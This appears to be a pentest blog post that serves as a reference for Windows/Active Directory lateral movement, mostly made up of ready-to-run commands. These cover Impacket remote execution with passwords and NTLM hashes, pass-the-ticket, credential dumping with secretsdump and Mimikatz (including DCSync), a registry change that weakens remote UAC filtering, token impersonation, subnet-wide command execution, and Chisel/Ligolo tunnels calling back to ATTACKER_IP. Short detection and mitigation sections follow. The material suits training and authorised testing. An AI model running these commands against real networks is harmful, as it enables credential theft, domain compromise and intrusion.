









## TL;DR

Lateral movement is the phase where access to one host becomes access to another. In Windows / Active Directory environments, this typically means: you have credentials or hashes, and you want a shell on a different machine — or across the whole domain.

This reference covers every major technique used in real engagements and OSCP-style labs:

| Category | Techniques |
|---|---|
| SMB-based execution | psexec.py, smbexec.py, atexec.py |
| WMI-based execution | wmiexec.py, dcomexec.py |
| WinRM | evil-winrm, winrm.py |
| Credential attacks | Pass-the-Hash (PTH), Pass-the-Ticket (PTT) |
| Token / session | Token impersonation, runas, Mimikatz pth |
| Network pivoting | Chisel SOCKS, Ligolo-ng, proxychains |
| Mass validation | NetExec / nxc |

---

## The Mental Model



---

## Quick Decision Matrix

| Tool | Auth needed | Shell user | SMB signing blocks? | Binary dropped? | Port |
|---|---|---|---|---|---|
| `psexec.py` | Local/domain admin | SYSTEM | No (unsigned needed) | Yes (disk) | 445 |
| `smbexec.py` | Local/domain admin | SYSTEM | No (unsigned needed) | No | 445 |
| `atexec.py` | Local/domain admin | SYSTEM | No (unsigned needed) | No | 445 |
| `wmiexec.py` | Local/domain admin | Authed user | N/A (not SMB-based) | No | 135+dynamic |
| `dcomexec.py` | Local/domain admin | Authed user | N/A | No | 135+dynamic |
| `evil-winrm` | Local/domain admin | Authed user | N/A | No | 5985/5986 |

**Rule of thumb:**
- AV/EDR present → `smbexec.py` or `wmiexec.py`
- SMB blocked → `wmiexec.py` (RPC/WMI) or `evil-winrm` (WinRM)
- Need exact user context → `wmiexec.py` or `evil-winrm` (not SYSTEM)
- Quick spray across many hosts → `nxc smb` with `-x`

---

## 1. psexec.py — SYSTEM via SCM + Named Pipe

The classic. Uploads a service binary to `ADMIN$`, creates a Windows service via SCM, communicates through a named pipe.



```bash
# Password
psexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
psexec.py corp.local/administrator@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# Pass-the-Ticket
export KRB5CCNAME=/tmp/admin.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
```

**Fails when:** ADMIN$ share disabled, SMB signing required (DC default), AV flags the service binary.

---

## 2. smbexec.py — SYSTEM, No Binary Dropped

Executes commands by creating a service whose `binPath` is a direct `cmd.exe /c` one-liner — no binary written to disk. Lower AV exposure than psexec.py.



```bash
# Password
smbexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
smbexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c

# Run specific command
smbexec.py corp.local/administrator:Password1@10.10.10.50 -c "whoami"
```

**Prefer over psexec.py** when AV is a concern — no binary touches disk.

---

## 3. wmiexec.py — User-Level via WMI

Uses WMI (`Win32_Process.Create`) over DCOM/RPC. Does **not** require ADMIN$ or SMB. The shell runs as the authenticated user, not SYSTEM.



```bash
# Password
wmiexec.py corp.local/administrator:Password1@10.10.10.50

# Pass-the-Hash
wmiexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c

# Single command (non-interactive)
wmiexec.py corp.local/administrator:Password1@10.10.10.50 "whoami"

# Pass-the-Ticket
export KRB5CCNAME=/tmp/admin.ccache
wmiexec.py -k -no-pass corp.local/administrator@10.10.10.50
```

**Pros:** No binary to disk, no service creation, not blocked by SMB signing.
**Cons:** Requires DCOM/RPC ports to be reachable (135 + ephemeral). Output delivered via SMB C$ poll.

---

## 4. atexec.py — SYSTEM via Task Scheduler

Creates a scheduled task to execute a command, reads the output, then deletes the task.

```bash
# Password
atexec.py corp.local/administrator:Password1@10.10.10.50 "whoami"

# Pass-the-Hash
atexec.py corp.local/administrator@10.10.10.50 -hashes :8846f7eaee8fb117ad06bdd830b7586c "whoami"
```

**Use case:** When SCM-based methods are blocked or monitored but Task Scheduler is not.

---

## 5. evil-winrm — Interactive WinRM Shell

The go-to tool when WinRM (port 5985/5986) is open and the user is in the `Remote Management Users` or `Administrators` group.



```bash
# Password
evil-winrm -i 10.10.10.50 -u administrator -p Password1

# NTLM hash (Pass-the-Hash)
evil-winrm -i 10.10.10.50 -u administrator -H 8846f7eaee8fb117ad06bdd830b7586c

# Kerberos (Pass-the-Ticket)
export KRB5CCNAME=/tmp/admin.ccache
evil-winrm -i dc01.corp.local -u administrator -r corp.local

# Upload a file during session
upload /local/path/file.exe C:\Windows\Temp\file.exe

# Download a file
download C:\Users\Administrator\Desktop\flag.txt

# Load a PowerShell script
menu  # then use Bypass-4MSI or Invoke-* functions
```

**Check WinRM availability:**
```bash
nxc winrm 10.10.10.0/24
# Hosts showing (Pwn3d!) support WinRM execution with these creds
nxc winrm 10.10.10.50 -u administrator -p Password1
```

---

## 6. Pass-the-Hash (PTH)

NTLM authentication uses the hash directly to sign a challenge — no plaintext needed. If you extract an NTLM hash from LSASS, SAM, or NTDS.dit, you can authenticate anywhere that hash is valid.



**Where to get hashes:**
```bash
# From LSASS (with admin on target) — via netexec
nxc smb 10.10.10.50 -u administrator -p Password1 --lsa

# secretsdump — SAM + LSA + cached creds
secretsdump.py corp.local/administrator:Password1@10.10.10.50

# secretsdump — NTDS.dit (domain-wide dump from DC)
secretsdump.py corp.local/administrator:Password1@dc01.corp.local -just-dc-ntlm

# From Mimikatz on a compromised host
sekurlsa::logonpasswords
lsadump::sam
lsadump::dcsync /domain:corp.local /user:Administrator
```

**Use hashes everywhere:**
```bash
# psexec
psexec.py corp.local/administrator@TARGET -hashes :NT_HASH

# wmiexec
wmiexec.py corp.local/administrator@TARGET -hashes :NT_HASH

# evil-winrm
evil-winrm -i TARGET -u administrator -H NT_HASH

# nxc spray — validate where hash works
nxc smb 10.10.10.0/24 -u administrator -H NT_HASH
```

**Caveat — LocalAccountTokenFilterPolicy:**
Local admin accounts (not domain admins) get a filtered (non-elevated) token over the network by default. Fix on target:
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

---

## 7. Pass-the-Ticket (PTT)

Kerberos tickets (TGT or TGS) can be extracted and reused. Unlike PTH (NTLM), PTT works against Kerberos-only services and does not leave NTLM traces.



**Extract and use tickets:**
```bash
# Export tickets with Mimikatz (on compromised Windows host)
sekurlsa::tickets /export
# → produces .kirbi files

# Convert .kirbi to .ccache (Linux-compatible)
ticketConverter.py ticket.kirbi ticket.ccache

# Use on Linux
export KRB5CCNAME=/tmp/ticket.ccache
psexec.py -k -no-pass corp.local/administrator@dc01.corp.local
wmiexec.py -k -no-pass corp.local/administrator@10.10.10.50

# Request a TGT from hash (overpass-the-hash / PTK)
getTGT.py corp.local/administrator -hashes :NT_HASH
export KRB5CCNAME=administrator.ccache
```

---

## 8. Token Impersonation

On a compromised Windows host, you can impersonate the tokens of other logged-in users or services — no credentials needed.

**With Meterpreter:**
```bash
use incognito
list_tokens -u
impersonate_token "CORP\\Domain Admin"
```

**With Mimikatz:**
```
token::elevate          # Impersonate SYSTEM token
token::list             # List available tokens
sekurlsa::logonpasswords  # After impersonation — dump new creds
```

**With PrintSpoofer / GodPotato (for SeImpersonatePrivilege):**
```bash
# If SeImpersonatePrivilege is held (common on service accounts, IIS, MSSQL)
PrintSpoofer64.exe -i -c cmd
GodPotato.exe -cmd "cmd /c whoami"
```

---

## 9. NetExec (nxc) — Mass Lateral Movement Validation

Before committing to a specific tool, validate where credentials/hashes work across the subnet.

```bash
# Validate password across subnet
nxc smb 10.10.10.0/24 -u administrator -p Password1

# Validate NTLM hash
nxc smb 10.10.10.0/24 -u administrator -H NT_HASH

# Execute command on all valid hosts
nxc smb 10.10.10.0/24 -u administrator -p Password1 -x "whoami"

# WinRM validation
nxc winrm 10.10.10.0/24 -u administrator -p Password1

# Check (Pwn3d!) — indicates local admin + exec rights
# [*] 10.10.10.50  SMB  (name:WIN10-01)  (Pwn3d!)
```

---

## 10. Pivoting / Network Tunneling

Once inside, you often need to reach network segments not directly accessible. See the [Chisel / Ligolo-ng guide](/posts/tech-chisel-ligolo-ligolo-mp/) for full details.



**Chisel — SOCKS proxy (quick pivot):**
```bash
# Attacker
chisel server --reverse --port 8080

# Pivot host (Windows)
.\chisel.exe client ATTACKER_IP:8080 R:socks

# Use with proxychains
proxychains nmap -sT -Pn 10.10.20.10
proxychains evil-winrm -i 10.10.20.10 -u administrator -p Password1
```

**Ligolo-ng — transparent L3 routing:**
```bash
# Attacker
./proxy -selfcert -laddr 0.0.0.0:11601
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up

# Pivot host
.\agent.exe -connect ATTACKER_IP:11601 -ignore-cert

# In Ligolo proxy console
session → select agent → start
# Add route on attacker
sudo ip route add 10.10.20.0/24 dev ligolo
# Now reach internal segment directly — no proxychains needed
```

---

## Full Attack Flow Example



---

## Impacket Tools — Full Reference

| Tool | Command | Notes |
|---|---|---|
| `psexec.py` | `psexec.py DOMAIN/USER:PASS@TARGET` | SYSTEM shell, binary dropped |
| `smbexec.py` | `smbexec.py DOMAIN/USER:PASS@TARGET` | SYSTEM shell, no binary |
| `wmiexec.py` | `wmiexec.py DOMAIN/USER:PASS@TARGET` | User shell via WMI |
| `atexec.py` | `atexec.py DOMAIN/USER:PASS@TARGET "cmd"` | SYSTEM via Task Scheduler |
| `dcomexec.py` | `dcomexec.py DOMAIN/USER:PASS@TARGET` | User shell via DCOM |
| `secretsdump.py` | `secretsdump.py DOMAIN/USER:PASS@TARGET` | Dump SAM/LSA/NTDS |
| `getTGT.py` | `getTGT.py DOMAIN/USER -hashes :HASH` | Request TGT from hash |
| `getST.py` | `getST.py -spn cifs/TARGET DOMAIN/USER` | Request service ticket |
| `ticketConverter.py` | `ticketConverter.py a.kirbi a.ccache` | Convert ticket format |

**Auth flags (work across all tools):**
```bash
-hashes LM:NT        # Pass-the-Hash
-k -no-pass          # Pass-the-Ticket (set KRB5CCNAME first)
-dc-ip IP            # Specify DC for Kerberos lookups
```

---

## Detection — Blue Team

| Technique | Event ID | What to watch |
|---|---|---|
| psexec / smbexec | 7045 | Short-lived service with random name in `C:\Windows\` |
| psexec / smbexec | 5140 | `ADMIN$` share access from non-admin host |
| wmiexec | 4648 | Explicit credential logon + WMI process creation |
| All PTH | 4624 LogonType 3 | NTLM (not Kerberos) from unexpected IP |
| All exec tools | 4688 | `cmd.exe` spawned from `WmiPrvSE.exe` / `services.exe` |
| evil-winrm | 4624 LogonType 3 | WinRM session from unexpected host |
| Ticket abuse | 4769 | Kerberos TGS requests for unusual SPNs or from unusual sources |
| DCSync | 4662 | Replication rights (`DS-Replication-Get-Changes-All`) exercised by non-DC |

---

## Mitigations

```powershell
# Enable SMB signing (prevents relay + reduces psexec surface)
Set-SmbServerConfiguration -RequireSecuritySignature $true

# Disable WinRM if not needed
Stop-Service WinRM; Set-Service WinRM -StartupType Disabled

# Restrict ADMIN$ access via firewall — allow only jump hosts
netsh advfirewall firewall add rule name="Block ADMIN$ from non-mgmt" ...

# Deploy LAPS — unique local admin passwords per machine
# Breaks PTH lateral movement with the local admin account

# Enable Credential Guard — protects LSASS from hash extraction
# Requires UEFI Secure Boot + Virtualization Based Security

# Privileged Access Workstations (PAW)
# Admins only manage from dedicated hardened workstations
```

---

## Related Articles

- [psexec.py — What It Can and Cannot Do](/posts/tech-psexec-lateral-movement/)
- [NetExec (nxc) — Beginner-Friendly Practical Guide](/posts/tech-netexec-beginner-guide/)
- [Chisel / Ligolo-ng / Ligolo-mp — Practical Pivoting Guide](/posts/tech-chisel-ligolo-ligolo-mp/)
- [ntlmrelayx.py — What It Can and Cannot Do](/posts/tech-ntlmrelayx-attack-guide/)
- [Mimikatz — Complete Usage Guide](/posts/tech-mimikatz-guide/)
- [Kerberos Attack Techniques for OSCP](/posts/tech-kerberos-oscp-guide/)

---

## References

- [MITRE ATT&CK — Lateral Movement (TA0008)](https://attack.mitre.org/tactics/TA0008/)
- [Impacket GitHub](https://github.com/fortra/impacket)
- [evil-winrm GitHub](https://github.com/Hackplayers/evil-winrm)
- [NetExec GitHub](https://github.com/Pennyw0rth/NetExec)
- [HackTricks — Lateral Movement](https://book.hacktricks.xyz/windows-hardening/lateral-movement)
